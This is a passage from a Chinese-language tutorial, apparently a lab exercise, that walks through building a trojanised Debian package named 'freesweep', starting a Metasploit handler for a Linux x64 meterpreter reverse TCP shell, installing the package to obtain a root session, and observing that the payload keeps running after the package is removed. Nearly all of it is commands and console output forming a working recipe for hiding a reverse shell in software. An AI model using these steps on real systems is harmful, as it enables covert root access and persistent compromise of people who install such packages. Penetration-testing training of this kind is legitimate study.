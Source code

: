 ```
构建新的 deb 安装包 
dpkg-deb --build /root/free/ 

	dpkg-deb: 正在 '/root/free.deb' 中构建软件包 'freesweep'。

注：会在当前目录下生成构建的软件包 freesweep.deb ,我们当前的目录是/root 

ls /root/free.deb 
```

```
新打开一个终端 CTRL+SHIFT+T，生成 MSF 监听 
msfconsole 
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST 192.168.36.136 
msf6 exploit(multi/handler) > set LPORT 4444 
msf6 exploit(multi/handler) > exploit 
```

```
这里最好是在 Kali 中执行如果再 XSHELL 中执行可能会导致窗口卡死。
dpkg -i free.deb 
回到 MSF 控制台 
meterpreter > getuid 

	uid=0 	#表示 root 权限 
```

退出 session 需要使用 quit 正常退出 session 否则会影响下次连接。 

```
卸载软件包 
dpkg -r freesweep 我们发现就算恶意软件包被卸载，payload 依旧正常运行。
exit 退出即可
```

```
退出 session 需要使用 quit 正常退出 session 否则会影响下次连接。 
meterpreter > quit 

	[*] Shutting down Meterpreter... 
	[*] 192.168.36.136 - Meterpreter session 2 closed. Reason: User exit
```
























